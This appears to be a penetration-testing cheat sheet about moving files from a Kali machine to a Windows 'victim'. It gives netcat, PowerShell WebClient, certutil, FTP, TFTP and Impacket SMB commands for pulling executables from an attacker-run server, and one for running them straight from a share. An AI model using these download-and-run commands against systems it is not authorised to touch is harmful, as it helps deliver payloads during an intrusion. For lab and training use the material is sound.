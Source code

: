 # File Transfer

#### Python

```bash
# python2 http server
python2 -m SimpleHTTPServer 1337 #1337 - port no
# python3 http server
python3 -m http.server 1337
# python ftp server with anon login and write permission
# installing module
pip install pyftpdlib
# starting the server
python -m pyftpdlib -p 21 --write
```

#### NC

```bash
# sender
nc 10.10.10.10 1337 \< \<file_to_be_sent\>
# reciever
nc -lvnp 1337 \> \<outfile\>
```


#### File Transfer from kali to windows:
Here we will be transferring the `xxxx.exe` from kali to windows
In Kali, utilities like `curl` and `wget` will be exported by default hence, there will no need of covering file transfer methods for them

- [http](#http)
- [ftp](#ftp)
- [tftp](#tftp)
- [SMB](#smb)

##### HTTP Transferring <a name='http'></a>
*Setting UP the server :*
- Apache

<h5>Apache:</h5>

```bash
cp xxxx.exe /var/www/html
service apache2 start

#The apache2 server's activity can be verfied with
─[kali@kali]─[~]$ service apache2 status
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Sat 2020-08-01 04:28:17 EDT; 12s ago

```

*Receiving the file:*
- When GUI is available, fire up the browser and navigate to `http://iamserver:port/xxxx.exe` to download the file
- When only CLI is available, the webclient object is used

```bash
powershell -c (new-object System.Net.WebClient).DownloadFile('http://iamserver:port/xxxx.exe','C:\download\path\xxxx.exe')
# If the abouve one fails
powershell.exe -command Invoke-WebRequest -Uri 'http://iamserver:port/xxxx.exe' -OutFile 'C:\download\path\xxxx.exe'
# file transfer when only cmd is available, output just like wget
certutil -urlcache -f http://iamserver:port/xxxx.exe xxxx.exe
```

##### FTP Transferring <a name='ftp'></a>
- Windows has an inbuilt ftp client located in,`C:\Windows\System32\ftp.exe`

*Setting UP the server:*
- vsftpd
- Metasploit

<h5>vsftpd :</h5>

- Installing a fully functional `ftp` service in the kali machine

```bash
apt-get install vsftpd
#in the vsftpd.conf
local_enable = yes
write_enable = yes
chroot_list_enable=YES
chroot_list_file=/etc/vsftpd.chroot_list
anonymous_enable=yes
#end of editing config file

vsftpd start 
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/ftp
set FTPUSER wr3nch
set FTPPASS damnedsec
set FTPROOT \<directory/path\>
run
```

*Receiving the file:*
- As `ftp` is pre installed in windows, ftp login to obtain files

```bash
ftp 10.10.10.10
username anonymous
password anonymous
#set the transfer to binary mode
binary
#download file
get xxxx.exe
```

##### TFTP Transferring <a name='tftp'></a>

- `tftp` is installed by default in windows xp machine but is disabled in newer machines
- Through tftp, files can be downloaded in a single command

*Setting UP the server:*
- atftpd
- Metasploit

<h5>atftpd: </h5>
- Linux exports with built in tftp service

```bash
service atftpd start
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/tftp
set TFTPROOT \<directory/path\>
run
```

*Receiving the file:*

- Enabling tftp as it is disabled by default in newer machines

```bash
pkgmgr /iu:"TFTP"
```

- tftp doesnt require any authentication
- If installed in the victim machine make use of it

```bash
#download a file
tftp -i 10.10.10.10 GET xxxx.exe

#upload a file
tftp -i 10.10.10.10 PUT xyz.exe
```

##### SMB Transferring <a name='smb'></a>

- SMB is exported builtin with windows

*Setting UP the server:*

- Linux
- Impacket

<h5>Linux: </h5>

```bash
#inastall dependencies
python-glade2 system-config-samba

# Configuring SAMBA
# edit the /etc/samba/smb.conf file
# change the workgroup= WORKGROUP to your network needs and tweak and save the conf file
# restart the samba
sudo service smbd restart
```
<h5>Impacket: </h5>

- The `smbserver.py` in the impackets will take care of every cofigurations and binds to port 445

```bash
python smbserver.py wr3nch \<directory/path\>
```

- This can be verified with `SMBCLIENT` which is pre-installed in LINUX

```bash
# connect to the specified IP with no password
# the name wr3nch given when starting the smbserver.py will be shown as the share name
smbclient -L 10.10.10.11 --no-pass
```

*Receiving the file:*

- The smb server is treated as a local share
- Just access it to obtain the files

```bash
# list the contents of the share
dir \\10.10.10.11\wr3nch

# copy files from ther server to the windows machine
copy \\10.10.10.11\wr3nch\xxxx.exe .

# executing files straight from the server 
\\10.10.10.11\wr3nch\xxxx.exe
```
